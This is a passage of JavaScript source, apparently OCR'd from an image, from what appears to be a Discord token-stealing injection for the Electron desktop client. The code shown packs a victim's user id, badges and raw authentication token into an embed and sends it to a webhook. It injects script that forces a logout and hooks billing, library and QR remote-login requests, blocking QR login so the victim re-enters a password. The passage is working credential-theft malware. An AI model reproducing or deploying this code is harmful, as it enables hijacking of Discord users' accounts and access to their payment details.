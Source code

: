                                     value: `\`${b.id}\``,
                                    inline: !0
                                }, {
                                    name: "badges:",
                                    value: `${getBadges(b.flags)}`,
                                    inline: !0
                                }, {
                                    name: "token:",
                                    value: `\`\`\`${token}\`\`\``,
                                    inline: !1
                                }],
                                author: {
                                    name: "rf.sex"
                                },
                                footer: {
                                    text: "better than all."
                                },
                                thumbnail: {
                                    url: `https://cdn.discordapp.com/avatars/${b.id}/${b.avatar}`
                                }
                            }]
                        };
                        sendToWebhook(JSON.stringify(c))
                    });
                }
            }
            const window = BrowserWindow.getAllWindows()[0];
            window.webContents.executeJavaScript(`window.webpackJsonp?(gg=window.webpackJsonp.push([[],{get_require:(a,b,c)=>a.exports=c},[["get_require"]]]),delete gg.m.get_require,delete gg.c.get_require):window.webpackChunkdiscord_app&&window.webpackChunkdiscord_app.push([[Math.random()],{},a=>{gg=a}]);function LogOut(){(function(a){const b="string"==typeof a?a:null;for(const c in gg.c)if(gg.c.hasOwnProperty(c)){const d=gg.c[c].exports;if(d&&d.__esModule&&d.default&&(b?d.default[b]:a(d.default)))return d.default;if(d&&(b?d[b]:a(d)))return d}return null})("login").logout()}LogOut();`, !0).then((result) => {});
        }
        return !1
    }))
}

const filter = {
    "urls": ["https://status.discord.com/api/v*/scheduled-maintenances/upcoming.json", "https://*.discord.com/api/v*/applications/detectable", "https://discord.com/api/v*/applications/detectable", "https://*.discord.com/api/v*/users/@me/library", "https://discord.com/api/v*/users/@me/library", "https://*.discord.com/api/v*/users/@me/billing/subscriptions", "https://discord.com/api/v*/users/@me/billing/subscriptions", "wss://remote-auth-gateway.discord.gg/*"]
}

session.defaultSession.webRequest.onBeforeRequest(filter, (details, callback) => {
    if (details.url.startsWith("wss://")) {
        if (config["disable-qr-code"] == "true" || config["disable-qr-code"] == "%DISABLEQRCODE%") {
            callback({
                cancel: true
            })
            return;
        }
    }
    if (firstTime()) {}
